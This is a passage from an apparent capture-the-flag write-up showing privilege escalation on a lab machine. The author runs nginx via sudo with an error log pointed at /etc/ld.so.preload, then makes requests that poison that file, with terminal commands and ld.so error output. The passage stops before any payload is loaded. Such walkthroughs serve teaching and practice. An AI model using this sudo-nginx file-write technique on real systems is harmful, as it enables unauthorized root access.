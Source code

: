 
I’ll start that nginx server:

    
    
    activemq@broker:/tmp$ sudo /usr/sbin/nginx -c /tmp/nginx.conf 
    activemq@broker:/tmp$ netstat -tnlp | grep 1339
    tcp        0      0 0.0.0.0:1339            0.0.0.0:*               LISTEN      - 
    

Now there’s a server listening on 1339 that writes error logs to
`/etc/ld.so.preload`.

#### Poison ld.so.preload

Now I’ll request `/tmp/pwn.so`. The first request looks like a normal 404:

    
    
    activemq@broker:/tmp$ curl localhost:1339/tmp/pwn.so
    <html>
    <head><title>404 Not Found</title></head>
    <body>
    <center><h1>404 Not Found</h1></center>
    <hr><center>nginx/1.18.0 (Ubuntu)</center>
    </body>
    </html>
    

It’s important that the library not exist yet, or it won’t error and thus
won’t write the log. If I run `curl` again, I’ll see errors:

    
    
    activemq@broker:/tmp$ curl localhost:1339/tmp/pwn.so
    ERROR: ld.so: object '2023/11/08' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '21' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '13' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '40' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '[error]' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '2426' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    <html>
    <head><title>404 Not Found</title></head>
    <body>
    <center><h1>404 Not Found</h1></center>
    <hr><center>nginx/1.18.0 (Ubuntu)</center>
    </body>
    </html>
    

That’s because `curl` is trying to load a bunch of things as shared objects
from `ld.so.preload` that aren’t shared objects. This is clear in
`/etc/ld.so.preload`:
